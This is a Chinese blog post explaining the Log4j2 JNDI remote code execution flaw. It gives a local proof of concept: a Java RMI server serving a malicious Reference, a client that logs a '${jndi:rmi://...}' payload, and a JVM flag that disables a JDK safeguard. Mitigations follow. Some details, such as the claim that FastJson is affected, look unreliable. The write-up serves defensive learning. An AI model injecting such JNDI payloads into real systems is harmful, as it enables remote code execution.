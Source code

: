 ```yaml
---
categories: ["safe"] 
tags: ["Log4j2"] 
title: "Log4j2远程执行漏洞"
# linkTitle: ""
weight: 5
description: >
  
---
```


# 背景

都2021年了，居然还有这种简单粗暴直接替换占位符的安全问题，真的难以想象。比之前fastjson的漏洞还要大、还要容易。


# 问题原因

## 占位符替换机制

log4j提供了占位符的功能，如下：

```java
logger.info("os: ${java:os}");
// 会输出操作系统的信息
```
会把 ${java:os} 替换成了 System.getProperties("os") 
## jndi占位符替换

离谱的是 log4j 还提供了关于 jndi 的占位符。如：

```java
logger.info("${jndi:rmi://127.0.0.1:1099/hello}")
```

# 影响范围

1、log4j 2.x.x版本（包括直接、间接依赖；1.x版本不受影响）

2、FastJson < 1.2.69 版本

# 漏洞复现

更多源码参考：[java-demo logsafe](https://github.com/chnherb/java-demo/tree/master/src/main/java/com/huangbo/log/logsafe)

## jndi服务

```java
package com.huangbo.log.logsafe;
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import javax.naming.NamingException;
import javax.naming.Reference;
import javax.swing.*;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
public class RmiSafeServer {
    public static void main(String[] args) throws RemoteException, NamingException, AlreadyBoundException {
        LocateRegistry.createRegistry(1099);
        Registry registry = LocateRegistry.getRegistry();
        Reference reference = new Reference("com.huangbo.log.logsafe.Hello", "com.huangbo.log.logsafe.Hello", "http://127.0.0.1:1099/");
        ReferenceWrapper refObjWrapper = new ReferenceWrapper(reference);
        registry.bind("hello", refObjWrapper);
    }
}
class Hello {
    static {
        JOptionPane.showConfirmDialog(null, "嘿嘿嘿！！");
    }
}
```
## 用户程序

```java
package com.huangbo.log.logsafe;
import lombok.extern.slf4j.Slf4j;
@Slf4j
public class LogSafeDemo {
    public static void main(String[] args) {
//        String name = "${java:os}";
        String name = "${jndi:rmi://localhost:1099/hello}";
        login(name);
    }
    public static void login(String name){
        log.info(name);
    }
}
```
## 触发用户程序

注意：务必关闭服务端和客户端的全局代理模式！

启动用户程序发现报错：

```xml
2021-12-18 17:51:05,537 main WARN Error looking up JNDI resource [rmi://localhost:1099/hello]. 
javax.naming.ConfigurationException: The object factory is untrusted. 
Set the system property 'com.sun.jndi.rmi.object.trustURLCodebase' to 'true'.
```
因为本机用的是JDK8，添加了一个新的属性默认为false，需要在用户侧手动开启。添加如下参数，IDEA中配置"VM Options"
```shell
-Dcom.sun.jndi.rmi.object.trustURLCodebase=true
```
重新启动，发现成功入侵！
# 解决方法

## 更新log4j版本

将 log4j 到最新版本 2.15 及以上 ，亲测有效

## 添加jvm参数

亲测不行！

添加jvm参数，禁止占位符替换

```json
-Dlog4j2.FORMATMsgNoLookups=true 
```
或创建 "log4j2.component.properties" 文件，文件中加入"log4j2.formatMsgNoLookups=true" 
## 升级到java8

Java 8 中添加了一个新的属性 com.sun.jndi.rmi.object.trustURLCodebase，这是一个 boolean 类型。默认值是 false，在使用 jndi 时会抛出一个报错阻止加载远程服务器提供的代码。

## 删除jar包class文件

删除 log4j-core-*.jar 中 org/apache/logging/log4j/core/lookup/JndiLookup.class 这个文件，彻底进行不了 jndi

>可行性较小


# Reference

[Log4j 爆“核弹级”漏洞](https://mp.weixin.qq.com/s/Yq9k1eBquz3mM1sCinneiA)

[Log4j 惊天远控漏洞: 原理？如何解决？](https://www.bilibili.com/read/cv14380391)
